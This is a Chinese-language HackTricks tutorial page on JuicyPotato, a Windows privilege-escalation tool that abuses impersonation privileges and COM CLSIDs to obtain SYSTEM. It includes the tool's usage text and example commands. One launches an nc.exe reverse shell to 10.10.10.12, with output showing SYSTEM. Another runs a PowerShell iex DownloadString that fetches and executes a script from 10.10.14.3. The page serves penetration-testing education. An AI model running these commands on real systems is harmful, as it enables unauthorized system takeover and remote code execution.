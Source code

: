 # JuicyPotato

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

{% hint style="warning" %}
**JuicyPotato 在** Windows Server 2019 和 Windows 10 build 1809 及之后版本上**无法工作**。然而， [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**、** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**、** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) 可以用来 **利用相同的权限并获得 `NT AUTHORITY\SYSTEM`** 级别的访问权限。 _**检查：**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (滥用黄金权限) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_一个经过糖化的_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG) _版本，带有一点“果汁”，即 **另一个本地权限提升工具，从 Windows 服务账户到 NT AUTHORITY\SYSTEM**_

#### 你可以从 [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts) 下载 juicypotato

### 摘要 <a href="#summary" id="summary"></a>

[**来自 juicy-potato 的自述文件**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) 及其 [变种](https://github.com/decoder-it/lonelypotato) 利用基于 [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [服务](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) 的权限提升链，具有在 `127.0.0.1:6666` 上的 MiTM 监听器，并且当你拥有 `SeImpersonate` 或 `SeAssignPrimaryToken` 权限时。在一次 Windows 构建审查中，我们发现了一个故意禁用 `BITS` 的设置，并且端口 `6666` 被占用。

我们决定武器化 [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG)：**向 Juicy Potato 打个招呼**。

> 有关理论，请参见 [Rotten Potato - 从服务账户到 SYSTEM 的权限提升](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) 并跟踪链接和参考。

我们发现，除了 `BITS` 之外，还有几个 COM 服务器可以利用。它们只需要：

1. 由当前用户实例化，通常是具有模拟权限的“服务用户”
2. 实现 `IMarshal` 接口
3. 以提升的用户身份运行（SYSTEM、Administrator 等）

经过一些测试，我们获得并测试了一份在多个 Windows 版本上的 [有趣 CLSID 列表](http://ohpe.it/juicy-potato/CLSID/)。

### Juicy 细节 <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato 允许你：

* **目标 CLSID** _选择你想要的任何 CLSID。_ [_这里_](http://ohpe.it/juicy-potato/CLSID/) _你可以找到按操作系统组织的列表。_
* **COM 监听端口** _定义你喜欢的 COM 监听端口（而不是硬编码的 6666）_
* **COM 监听 IP 地址** _在任何 IP 上绑定服务器_
* **进程创建模式** _根据模拟用户的权限，你可以选择：_
* `CreateProcessWithToken`（需要 `SeImpersonate`）
* `CreateProcessAsUser`（需要 `SeAssignPrimaryToken`）
* `两者都可以`
* **要启动的进程** _如果利用成功，启动一个可执行文件或脚本_
* **进程参数** _自定义启动进程的参数_
* **RPC 服务器地址** _为了隐蔽的方式，你可以认证到外部 RPC 服务器_
* **RPC 服务器端口** _如果你想认证到外部服务器而防火墙阻止端口 `135`，这很有用…_
* **测试模式** _主要用于测试目的，即测试 CLSID。它创建 DCOM 并打印令牌的用户。请参见_ [_这里进行测试_](http://ohpe.it/juicy-potato/Test/)

### 使用 <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### 最后想法 <a href="#final-thoughts" id="final-thoughts"></a>

[**来自 juicy-potato 读我**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

如果用户拥有 `SeImpersonate` 或 `SeAssignPrimaryToken` 权限，那么你就是 **SYSTEM**。

几乎不可能防止所有这些 COM 服务器的滥用。你可以考虑通过 `DCOMCNFG` 修改这些对象的权限，但祝你好运，这将是一个挑战。

实际的解决方案是保护在 `* SERVICE` 账户下运行的敏感账户和应用程序。停止 `DCOM` 无疑会抑制此漏洞，但可能会对底层操作系统产生严重影响。

来自: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## 示例

注意: 访问 [此页面](https://ohpe.it/juicy-potato/CLSID/) 获取可尝试的 CLSID 列表。

### 获取 nc.exe 反向 shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### 启动新的 CMD（如果您有 RDP 访问权限）

![](<../../.gitbook/assets/image (300).png>)

## CLSID 问题

通常，JuicyPotato 使用的默认 CLSID **无法工作**，并且漏洞利用失败。通常，需要多次尝试才能找到一个 **有效的 CLSID**。要获取特定操作系统的 CLSID 列表，您应该访问此页面：

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **检查 CLSID**

首先，您需要一些可执行文件，除了 juicypotato.exe。

下载 [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) 并将其加载到您的 PS 会话中，然后下载并执行 [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1)。该脚本将创建一个可能的 CLSID 列表以供测试。

然后下载 [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat)（更改 CLSID 列表和 juicypotato 可执行文件的路径）并执行它。它将开始尝试每个 CLSID，**当端口号改变时，这意味着 CLSID 有效**。

**使用参数 -c 检查** 有效的 CLSID

## 参考文献

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)


{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

